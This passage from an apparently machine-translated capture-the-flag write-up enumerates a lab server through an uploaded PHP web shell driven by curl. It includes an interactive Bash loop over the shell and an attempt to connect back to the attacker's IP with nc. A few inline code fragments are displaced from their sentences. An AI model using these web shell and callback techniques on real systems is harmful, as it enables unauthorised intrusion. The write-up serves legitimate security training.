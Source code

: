 
权限被拒绝很有趣。我将查看该文件：

    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /bin/nc'
    lrwxrwxrwx. 1 root root 22 May 10 10:56 /bin/nc -> /etc/alternatives/nmap
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /etc/alternatives/nmap'
    lrwxrwxrwx. 1 root root 13 May 10 10:56 /etc/alternatives/nmap -> /usr/bin/ncat
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/ncat'
    -rwxr-xr-x. 1 root root 644376 Nov  8  2019 /usr/bin/ncat
    

忽略链接以某种方式通过[替代方案](https://0xdf.gitlab.io/2020/03/25/update-alternatives.html)配置的事实，实际的二进制文件在权限的末尾有一个额外的内容。这表明 [SELinux 正在影响该文件](https://serverfault.com/questions/778407/linux-file-permission-got-a-ending-dot-and-webserver-denied-access)。`nc``ncat``.`

`curl`也有它：

    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/curl'
    -rwxr-xr-x. 1 root root 244104 Dec 17 17:46 /usr/bin/curl
    

### 网络外壳枚举

我将使用一个简单的 Bash 循环来枚举通过网络外壳的框：

    oxdf@parrot$ while :; do read -p "> " cmd; curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode "cmd=$cmd 2>&1"; done
    > id
    uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
    > ls
    1.php
    > nc 10.10.14.7 443
    Ncat: Permission denied.
    

我无法访问 ：`/home`

    > ls /home
    ls: cannot open directory '/home': Permission denied
    

查看网络目录，有一个用于DMS的目录：`settings.xml`

    > ls ../..
    1048576
    backup
    cache
    conf
    log
    lucene
    staging
    > ls ../../conf
    settings.xml
    settings.xml.template
    stopwords.txt
    